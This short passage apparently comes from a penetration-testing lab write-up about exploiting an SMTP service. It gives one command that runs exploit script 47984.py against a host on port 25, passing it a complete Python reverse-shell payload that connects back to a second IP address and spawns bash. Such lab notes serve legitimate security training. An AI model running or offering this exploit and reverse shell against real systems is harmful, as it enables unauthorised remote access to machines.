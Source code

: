 1.  SMPTD has an exploit and the the argument is kinda weird because it doesnt execute any bash revshells

```bash
 python 47984.py 192.168.248.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.189\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'
```



